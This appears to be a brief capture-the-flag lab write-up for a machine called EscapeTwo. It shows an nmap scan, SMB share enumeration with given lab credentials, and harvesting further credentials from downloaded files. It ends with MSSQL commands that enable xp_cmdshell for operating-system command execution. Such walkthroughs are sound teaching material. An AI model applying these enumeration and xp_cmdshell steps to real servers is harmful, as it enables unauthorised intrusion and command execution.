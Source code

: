 # EscapeTwo



### Enumeration Phase

Start with nmap scan

```
nmap 10.10.11.51
```

<figure><img src="../../.gitbook/assets/image (43).png" alt=""><figcaption></figcaption></figure>

Here we have everything standards in windows machine.



### SMB User Crack

Now lets checking out the creds that given to us: `rose / KxEPkKe6R8su`

<figure><img src="../../.gitbook/assets/image (45).png" alt=""><figcaption></figcaption></figure>

### Checking for File in SMB

```
smbclient -L //10.10.11.51 -U 'rose'
```

<figure><img src="../../.gitbook/assets/image (46).png" alt=""><figcaption></figcaption></figure>

```
smbclient //10.10.11.51/Accounting\ Department -U rose
```

<figure><img src="../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

Looking through to the files, download it using the get command and unpack the files.

Inside this file have user creds and we can use later for futher enumeration.

<figure><img src="../../.gitbook/assets/image (48).png" alt=""><figcaption></figcaption></figure>

### Enabling xp\_cmdshell <a href="#finding-vulnerability--enabling-xp_cmdshell" id="finding-vulnerability--enabling-xp_cmdshell"></a>

Using `sa` creds. im able to login tp the MSSQL via admin.

<figure><img src="../../.gitbook/assets/image (49).png" alt=""><figcaption></figcaption></figure>

To exploit MSSQL and enable xp\_cmdshell im using this command:

```
-- xp_cmdshell
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
 
-- check
EXEC sp_configure 'xp_cmdshell';
```

\
